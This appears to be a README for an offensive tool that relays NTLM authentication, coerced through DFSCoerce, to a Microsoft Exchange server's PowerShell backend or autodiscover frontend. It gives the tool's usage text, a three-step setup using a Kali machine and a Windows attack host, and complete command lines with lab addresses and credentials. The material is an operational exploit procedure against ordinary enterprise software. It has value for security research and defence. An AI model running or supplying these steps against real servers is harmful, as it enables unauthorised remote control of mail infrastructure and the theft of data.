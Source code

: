 ~~~shell script
usage: ProxyRelay_Powershell.py [-h] [-debug] [-t TARGET] [-p PASSWORD] [-u USERNAME] [-ns NTLM_SOURCE] [-nl NTLM_LISTEN] [-d DOMAIN] [-smb2support]

For every connection received, this module will try to relay that connection to specified target(s) system or the original client

Main options:
  -h, --help            show this help message and exit
  -debug                Turn DEBUG output ON
  -t TARGET, --target TARGET
                        Target backend powershell path, example: https://192.168.152.131:444/powershell
  -p PASSWORD, --password PASSWORD
                        password for DFSCoerce
  -u USERNAME, --username USERNAME
                        user name for DfsCoerce
  -ns NTLM_SOURCE, --ntlm-source NTLM_SOURCE
                        ntlm relay source ip, shouble be an exchange server ip
  -nl NTLM_LISTEN, --ntlm-listen NTLM_LISTEN
                        IP address of interface to bind SMB and HTTP servers, and Dfscoerce will trigger an ntlm authentication to this ip, so it can't be 0.0.0.0
  -d DOMAIN, --domain DOMAIN
                        domain name of exchange domain
  -smb2support          SMB2 Support
  -ssrf                 use autodiscover frontend ssrf to proxy to powershell
~~~

This script relay ntlm to autodiscover frontend, which then proxies connection to the powershell backend. Or replay ntlm directly to the powershell backend.

Trigger ntlm request with dfscoerce.



**Step1:** 

Modify the HOST variable in proxy.py to point to your kali. Then run proxy.py on the windows attack host.

It will listen for local powershell connections and proxy to kali.

**Step2:**

Run ProxyRelay_Powershell.py on you kali host.

It will do ntlm relay and proxy the powershell connection after authentication is done.

**Step3:**

Run localpowershell.ps1 on the windows attack host.




**Relay ntlm to Powershell Backend**

python3 ./ProxyRelay_Powershell.py -smb2support -t "https://192.168.152.131:444/powershell" -nl "192.168.152.157" -d "server.cd"  -ns "192.168.152.132" -u "test@server.cd" -p "P@ssword123"



**Relay ntlm to Autodiscover Frontend**

python3 ./ProxyRelay_Powershell.py -smb2support -t "https://192.168.152.131" -nl "192.168.152.157" -d "server.cd"  -ns "192.168.152.132" -u "test@server.cd" -p "P@ssword123"  -ssrf



